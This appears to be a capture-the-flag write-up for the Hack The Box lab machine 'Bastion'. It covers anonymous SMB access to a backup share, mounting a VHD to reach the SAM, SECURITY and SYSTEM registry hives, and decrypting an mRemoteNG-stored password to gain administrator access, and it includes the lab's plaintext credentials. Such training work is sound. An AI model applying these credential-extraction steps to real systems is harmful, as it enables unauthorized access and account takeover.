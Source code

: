 # Bastion

### Full port Scan

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

### Aggressive Scan

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

### Enumerating SMB

### Connect to share

* Saw `Backups` share

```bash
smbclient //10.10.10.134/Backups -N
```

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

* Mounting SMB share

```bash
mount -t cifs //10.10.10.134/Backups /home/kali/Documents/htb/10.10.10.134/share
```

* View the filesystem present in the virtual hard disk

```bash
guestfish --ro -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
```

```bash
><fs> run
><fs> list-filesystems
```

* filesystem is `/dev/sda1`

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Mounting VHD

```bash
guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -m /dev/sda1 --ro /home/kali/Documents/htb/10.10.10.134/4_vhd
```

*   Have access to the registry files (SAM, SECURITY, SYSTEM) in `c:\\windows\\system32\\config` folder

    ```bash
    c:\\windows\\system32\\config\\SAM
    c:\\windows\\system32\\config\\SECURITY
    c:\\windows\\system32\\config\\SYSTEM
    ```

    * Those files can be locked when the system is running but won’t have that issue on a mounted drive

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

* Having previously obtained the username as `L4mpje`, and the password `bureaulampje` —> can try to login via SSH
* Able to SSH and obtain user flag

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

* Using manual enumeration, I found `mRemoteNG` present in `c:\\Program Files (x86)`

<figure><img src="../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

* [https://github.com/haseebT/mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)
* The above tool allows us to decrypt passwords stored by mRemoteNG
* Have to find the password stored in mRemoteNG ([http://forum.mremoteng.org/viewtopic.php?f=3\&t=2179](http://forum.mremoteng.org/viewtopic.php?f=3\&t=2179))
* The password hash is stored at `c:\\Users\\L4mpje\\AppData\\Roaming\\mRemoteNG\\confcons.xml`

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

* Obtained the hash `aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==`
* Decypt the hash using the tool

```bash
python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```

<figure><img src="../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

* Therefore, we obtained the administrator credentials: `administrator:thXLHM96BeKL0ER2`
* Logging in via SSH, we are in the `Administrator` account

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>
